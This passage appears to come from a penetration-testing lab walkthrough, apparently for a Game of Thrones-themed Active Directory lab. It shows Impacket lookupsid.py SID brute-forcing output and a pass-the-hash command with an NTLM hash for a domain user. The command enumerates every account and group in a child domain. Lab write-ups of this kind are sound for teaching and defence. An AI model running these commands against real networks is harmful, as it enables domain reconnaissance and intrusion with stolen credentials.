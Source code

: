 Result:

```
[*] Brute forcing SIDs at 10.4.10.22
[*] StringBinding ncacn_np:10.4.10.22[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3779674392-1109536343-705869415
500: CASTELBLACK\Administrator (SidTypeUser)
501: CASTELBLACK\Guest (SidTypeUser)
503: CASTELBLACK\DefaultAccount (SidTypeUser)
504: CASTELBLACK\WDAGUtilityAccount (SidTypeUser)
513: CASTELBLACK\None (SidTypeGroup)
1000: CASTELBLACK\localuser (SidTypeUser)
1001: CASTELBLACK\SQLServer2005SQLBrowserUser$CASTELBLACK (SidTypeAlias)
```

---------------

Child Domain SID:

`lookupsid.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 NORTH/EDDARD.STARK@10.4.10.11`

Result:

```
[*] Domain SID is: S-1-5-21-58534182-3680670537-1634125476
500: NORTH\Administrator (SidTypeUser)
501: NORTH\Guest (SidTypeUser)
502: NORTH\krbtgt (SidTypeUser)
512: NORTH\Domain Admins (SidTypeGroup)
513: NORTH\Domain Users (SidTypeGroup)
514: NORTH\Domain Guests (SidTypeGroup)
515: NORTH\Domain Computers (SidTypeGroup)
516: NORTH\Domain Controllers (SidTypeGroup)
517: NORTH\Cert Publishers (SidTypeAlias)
520: NORTH\Group Policy Creator Owners (SidTypeGroup)
521: NORTH\Read-only Domain Controllers (SidTypeGroup)
522: NORTH\Cloneable Domain Controllers (SidTypeGroup)
525: NORTH\Protected Users (SidTypeGroup)
526: NORTH\Key Admins (SidTypeGroup)
553: NORTH\RAS and IAS Servers (SidTypeAlias)
571: NORTH\Allowed RODC Password Replication Group (SidTypeAlias)
572: NORTH\Denied RODC Password Replication Group (SidTypeAlias)
1000: NORTH\localuser (SidTypeUser)
1001: NORTH\WINTERFELL$ (SidTypeUser)
1102: NORTH\DnsAdmins (SidTypeAlias)
1103: NORTH\DnsUpdateProxy (SidTypeGroup)
1104: NORTH\SEVENKINGDOMS$ (SidTypeUser)
1105: NORTH\CASTELBLACK$ (SidTypeUser)
1106: NORTH\Stark (SidTypeGroup)
1107: NORTH\Night Watch (SidTypeGroup)
1108: NORTH\Mormont (SidTypeGroup)
1109: NORTH\AcrossTheSea (SidTypeAlias)
1110: NORTH\arya.stark (SidTypeUser)
1111: NORTH\eddard.stark (SidTypeUser)
1112: NORTH\catelyn.stark (SidTypeUser)
1113: NORTH\robb.stark (SidTypeUser)
1114: NORTH\sansa.stark (SidTypeUser)
1115: NORTH\brandon.stark (SidTypeUser)
1116: NORTH\rickon.stark (SidTypeUser)
1117: NORTH\hodor (SidTypeUser)
1118: NORTH\jon.snow (SidTypeUser)
1119: NORTH\samwell.tarly (SidTypeUser)
1120: NORTH\jeor.mormont (SidTypeUser)
1121: NORTH\sql_svc (SidTypeUser)
```
